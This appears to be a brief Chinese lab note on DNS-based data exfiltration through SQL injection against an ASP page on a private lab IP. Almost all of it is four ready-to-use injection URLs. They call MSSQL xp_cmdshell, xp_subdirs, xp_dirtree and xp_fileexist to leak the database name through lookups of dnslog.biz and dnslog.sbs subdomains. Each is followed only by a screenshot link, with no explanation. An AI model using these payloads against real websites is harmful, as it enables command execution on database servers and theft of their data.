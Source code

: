 ### DNS 数据外带

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "ping.exe ' %2b@a%2b '.06e7cd58.log.dnslog.biz. -n 1"')--+

​![image](assets/image-20240905180953-h0xsulv.png)​

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=db_name();exec('master..xp_subdirs "//'%2B@a%2B'.d2d2a117.log.dnslog.sbs.\\a" ')--+

​![image](assets/image-20240905181156-qfycyuh.png)​

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=db_name();exec('master..xp_dirtree "//'%2B@a%2B'.0b662a37.log.dnslog.biz.\\a" ')--+

​![image](assets/image-20240905181443-j19zsw0.png)​

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=db_name();exec('master..xp_fileexist "//'%2B@a%2B'.1ef7a253.log.dnslog.biz.\\a" ')--+

​![image](assets/image-20240905181600-0egmbbz.png)​
